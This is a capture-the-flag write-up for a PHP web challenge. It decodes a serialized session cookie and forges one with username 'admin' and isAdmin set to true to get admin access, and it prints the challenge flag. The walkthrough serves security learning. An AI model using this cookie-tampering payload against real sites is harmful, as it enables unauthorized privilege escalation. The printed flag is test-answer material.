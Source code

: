 # Challenge Name: flatten


![date](https://img.shields.io/badge/date-26.02.2023-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-200-blue.svg)  


## Description 

https://ideh-flat.chals.io/

**Author**: c3p0d4y

## Detailed solution

We have a page with a logged user "guest". We have a cookie with username and isAdmin

![2023-02-28_23h13_34](https://user-images.githubusercontent.com/72421091/221994481-80e10bf6-cc57-4e6c-8014-358a08e1d50b.png)

```
Cookie: user=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22guest%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A0%3B%7D
```
The cookie is url encoded. let's decode it 

```
O:4:"User":2:{s:8:"username";s:5:"guest";s:7:"isAdmin";b:0;}
```
It's a generated data via php serialize. You can read more here https://www.php.net/manual/en/function.serialize.php

We can use unserialize() to check our object format and classes

```php
<?php
$cookie = 'O:4:"User":2:{s:8:"username";s:5:"guest";s:7:"isAdmin";b:0;}';
$test = unserialize($cookie);
var_dump($test);
?>
```
```
object(__PHP_Incomplete_Class)#1 (3) { ["__PHP_Incomplete_Class_Name"]=> string(4) "User" ["username"]=> string(5) "guest" ["isAdmin"]=> bool(false) }
```
We have two class used for session, username and isAdmin. We can try for example to change username to admin adn isAdmin to 1 and see the results

```
O:4:"User":2:{s:8:"username";s:5:"admin";s:7:"isAdmin";b:1;}
```
```
O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
```

Now let's change the cookie via devtools

![image](https://user-images.githubusercontent.com/72421091/221647034-c5e8d89d-b8f8-4c09-9c04-ae3e96f39eae.png)

![image](https://user-images.githubusercontent.com/72421091/221647373-8bbf9af8-5955-47ff-b3d4-9a783e60a2a7.png)

We got our flag via an alert

You can check more about PHP Insecure Deserialization https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md

## Flag

```
IDEH{DE5ErIalIsA710n_Dy41_lAh_Ih53N_13waN} 
```

